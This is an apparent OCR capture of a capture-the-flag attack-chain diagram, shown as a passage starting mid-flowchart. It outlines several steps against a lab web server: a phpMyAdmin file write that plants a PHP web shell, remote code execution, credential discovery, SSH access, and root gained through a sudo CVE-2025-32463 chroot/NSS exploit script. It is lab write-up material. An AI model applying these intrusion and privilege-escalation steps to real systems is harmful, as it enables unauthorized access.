 ```
│   Read /var/www/html/db.php         │
│   Found: pma_admin:SecurinetsPMA!   │
│   MySQL credentials obtained        │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│   PHPMYADMIN ACCESS & EXPLOITATION  │
│   Login to /phpmyadmin/             │
│   secure_file_priv = empty          │
│   Can write files anywhere!         │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│      WEB SHELL UPLOAD               │
│   SELECT 0x<hex> INTO DUMPFILE      │
│   /var/www/html/uploads/shell.php   │
│   PHP web shell uploaded!           │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│      RCE AS WWW-DATA                │
│   shell.php?c=id                    │
│   uid=33(www-data)                  │
│   Remote code execution!            │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│   CREDENTIAL DISCOVERY              │
│   cat /var/www/html/admin-notes.txt │
│   shopuser:SecurinetsShop2025!      │
│   SSH credentials found!            │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│      SSH AS SHOPUSER                │
│   ssh shopuser@172.19.4.10          │
│   User in sudo group                │
│   cat ~/user.txt → USER FLAG! 🚩    │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│   PRIVILEGE ESCALATION RESEARCH     │
│   sudo --version → 1.9.16p2         │
│   Vulnerable to CVE-2025-32463      │
│   Found /tmp/sudo-chwoot.sh         │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│   EXPLOIT CVE-2025-32463            │
│   chmod +x sudo-chwoot.sh           │
│   ./sudo-chwoot.sh                  │
│   Malicious NSS library loaded      │
│   Constructor executes as root      │
└────────────┬────────────────────────┘
             │
             ▼
```